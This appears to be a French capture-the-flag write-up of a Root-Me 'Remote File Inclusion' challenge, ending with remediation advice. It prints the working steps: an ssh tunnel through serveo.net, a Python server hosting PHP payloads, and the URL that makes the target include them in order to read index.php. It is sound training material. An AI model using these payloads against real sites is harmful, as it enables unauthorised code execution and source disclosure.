




# Remote File Inclusion (RFI)

## Infos

- Catégorie : Web - Serveur
- Difficulté / Points : 30 points
- Fichiers / URL fournis : une page avec un choix de langue (`?lang=fr` ou `?lang=en`)

## Énoncé

Récupérer le code source PHP.

## TL;DR

Le paramètre `lang` sert à inclure un fichier de langue, et on le contrôle. Comme `allow_url_include` est activé sur le serveur, on peut faire inclure un fichier PHP hébergé sur **notre propre serveur** (RFI). On s'en sert pour lire le code source de `index.php`, qui contient le flag.

## Reconnaissance

Une **RFI** (Remote File Inclusion) apparaît quand une application inclut un fichier dont le nom vient d'une entrée utilisateur, sans filtrage. Si on contrôle cette entrée, on peut la faire pointer vers un fichier hébergé sur un serveur **qu'on contrôle** ; ce fichier (souvent du PHP) est alors exécuté par le serveur vulnérable.

Ici, le paramètre `lang=fr` choisit la langue. On peut donc remplacer `fr` par l'adresse de notre ressource.

Pour héberger cette ressource, mon réseau a une IP publique mais je ne veux pas ouvrir de port sur ma box. J'utilise donc **serveo.net**, qui crée un tunnel accessible depuis Internet.

## Exploitation

1. **Exposer un serveur local via serveo** : la commande ci-dessous redirige le port 80 public de serveo vers mon port 8000 local :
   ```bash
   ssh -R 80:localhost:8000 serveo.net
   ```
2. **Lancer un serveur HTTP local** — avec **Python**, surtout pas PHP, sinon le code s'exécuterait chez moi et pas chez la victime :
   ```bash
   python3 -m http.server 8000
   ```
3. **Créer le fichier à inclure** dans ce dossier, avec un payload PHP de test :
   ```php
   <?php echo phpinfo(); ?>
   ```
4. Je mets l'URL de serveo dans le paramètre `lang`. Première erreur : le code du site ajoute `_lang.php` au nom du fichier. Je vois ça dans le message :

   

   La solution : nommer mon fichier **`shell_lang.php`** et passer seulement `.../shell` dans l'URL :
   ```
   http://challenge01.root-me.org/web-serveur/ch13/?lang=<url_serveo>/shell
   ```
5. `phpinfo()` s'exécute. Je regarde `disable_functions` : `exec`, `system`, etc. sont désactivées. Mais le challenge demande seulement de **lire** le code source, pas d'exécuter des commandes.

   

6. Je change mon payload pour lire la source de la page :
   ```php
   <?php echo file_get_contents("index.php"); ?>
   ```
   Problème : dans le rendu de la page, on ne voit pas le code. En fait, `file_get_contents` renvoie bien la source (avec les balises `<?php ... ?>`), mais le navigateur masque ces balises à l'affichage.

   

7. Il suffit donc d'afficher le **code source de la page** avec `Ctrl + U` pour voir le contenu réel de `index.php`, avec le flag en commentaire :

   

## Flag

`masqué` *(règles Root-Me)*

## Ce que j'ai appris

1. Exposer un serveur local sur Internet avec un tunnel (serveo.net, ou ngrok), sans ouvrir de port sur ma box.
2. Le fonctionnement de la **RFI** : inclure un fichier distant qu'on contrôle, à condition que `allow_url_include` soit activé.
3. Bien utiliser **Python** (et pas PHP) pour héberger le payload, sinon il s'exécute chez moi.
4. `file_get_contents` renvoie la source brute d'un `.php` (sans l'exécuter), et `Ctrl + U` permet de la lire quand le navigateur cache les balises `<?php ?>`.
5. **Remédiation** : mettre `allow_url_include` (et `allow_url_fopen`) sur `off`, et ne jamais construire un `include()` à partir d'une entrée utilisateur — utiliser une liste blanche de langues (`fr`, `en`).

## Ressources

- [Vaadata – La faille RFI](https://www.vaadata.com/)
